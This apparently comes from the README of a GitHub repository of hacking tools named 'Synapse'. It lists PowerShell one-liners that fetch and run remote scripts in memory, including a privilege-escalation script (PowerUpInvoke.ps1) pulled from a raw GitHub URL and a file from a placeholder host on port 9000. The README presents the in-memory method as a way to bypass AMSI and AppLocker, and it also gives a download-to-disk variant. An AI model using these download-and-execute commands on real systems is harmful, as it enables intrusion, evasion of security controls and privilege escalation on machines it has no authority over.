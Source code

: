 # Synapse

> Repo for hacking tools

# Get files
## IEX (Doesnt touch disk - Helps to bypass AMSI/Applocker)
`IEX (New-Object Net.WebClient).DownloadString('http://xxxxx:9000/somefile')`
> use it to via github
`IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/evilNeuron/Synapse/master/privesc/windows/PowerUpInvoke.ps1')`

## Write to disk
`invoke-webrequest -Uri http://xxxxx:9000/somefile -OutFile somefile`
